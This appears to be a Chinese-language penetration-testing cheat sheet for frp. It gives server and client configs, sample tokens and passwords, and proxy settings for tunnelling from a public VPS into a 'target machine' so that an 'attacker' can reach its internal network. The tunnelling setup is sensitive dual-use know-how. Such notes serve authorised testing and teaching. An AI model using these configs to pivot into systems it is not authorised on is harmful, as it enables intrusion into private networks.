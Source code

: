 # Frp

---

## 介绍

```
支持tcp、udp、http、https、socker5
tcp、udp、socker5需要公网IP
http、https需要证书和域名
作用： 反向代理、端口转发
```

## 下载地址

```
https://github.com/fatedier/frp/releases
```

## 版本选择

```
ftp-版本-系统-cpu
---
系统：
darwin -》mac
linux  -》centos、redhat、ubuntu等
freebsd -》UNIX   
windows -》 windows
---
cpu架构：（https://blog.csdn.net/lixuande19871015/article/details/98613711）
386	X86架构
amd64	amd架构
arm	arm架构
arm64	64位arm架构
mips	mips架构
mips64	64位mips架构
mipsle	mipsle架构
mips64le	64位mipsle架构
使用名称查看linux 架构：
arch

```


## 操作


| 对象    | IP          | 反向代理                                                     |
| ------- | ----------- | ------------------------------------------------------------ |
| 公网VPS | 10.10.10.1  | ./frps -c frps.ini       (chmod 755 *  #给权限) <br/>#frps.ini---------------------------<br/>[common]<br/>bind_addr=0.0.0.0<br/>bind_port = 7088<br/>#------------------------------------ |
| 目标机  | 192.168.1.1 | frpc.exe -c frpc.ini<br/>#frpc.ini---------------------------<br/>[common]server_addr = 10.10.10.1<br/>server_port = 7088 <br/>[sock5-proxy]<br/>type = tcp<br/>remote_port = 3004<br/>plugin = socks5<br/>#------------------------------------ |
| 攻击者  | 192.168.2.1 | #任何协议均可连接socket5<br/>代理设置：http:// 10.10.10.1: 3004    socket5 |





| 对象    | IP          | 转发（操作）及规则文件内容                                   |
| ------- | ----------- | ------------------------------------------------------------ |
| 公网VPS | 10.10.10.1  | ./frps -c frps.ini       (chmod 755 *  #给权限)<br/>#frps.ini---------------------------<br/>[common]# 验证连接监听地址<br/>bind_addr=0.0.0.0<br/># 验证连接端口bind_port = 7088<br/># web统计后台账号<br/>dashboard_user = user1<br/># web统计后台密码<br/>dashboard_pwd = oUcOEDq3VGAxoW5Xoz51<br/># web统计后台端口dashboard_port = 7500<br/># token验证token = 8d262f2b-6dba-4a8d-857e-8a53d1d439e2<br/>#--------------------------- |
| 目标机  | 192.168.1.1 | frpc.exe -c frpc.ini<br/>#frpc.ini---------------------------<br/>[common]server_addr = 10.10.10.1<br/>server_port = 7088token = 8d262f2b-6dba-4a8d-857e-8a53d1d439e2 <br/># http代理<br/>[http_proxy]type = tcp<br/>remote_port = 6000<br/>plugin = http_proxy<br/>#配置http代理的简单认证<br/>plugin_http_user = user1<br/>plugin_http_passwd = 1qaz2wsx  <br/># ssh设置代理 或者远程桌面<br/>#[ssh]<br/>#type=tcp<br/>#local_ip = 127.0.0.1<br/>#local_port = 22<br/>#remote_port = 6000<br/>#启用加密#use_encryption = true<br/>#启用压缩#use_compression = true  <br/># web服务设置代理<br/>#[web]#type = http<br/>#local_port = 80<br/>#custom_domains = www.xxxx.com<br/>#--------------------------- |
| 攻击者  | 192.168.2.1 | 设置代理为VPS x.x.x.1:6000 进行验证用户密码即可通过代理进行访问内网得访问<br/>#cmd----------------------------------------------<br/>set http_proxy=http:// x.x.x.1:6000<br/>set http_proxy_user=user1<br/>set http_proxy_passwd=1qaz2wsx <br/>#web----------------------------------------------<br/>http:// 10.10.10.1:6000  user1 / 1qaz2wsx |

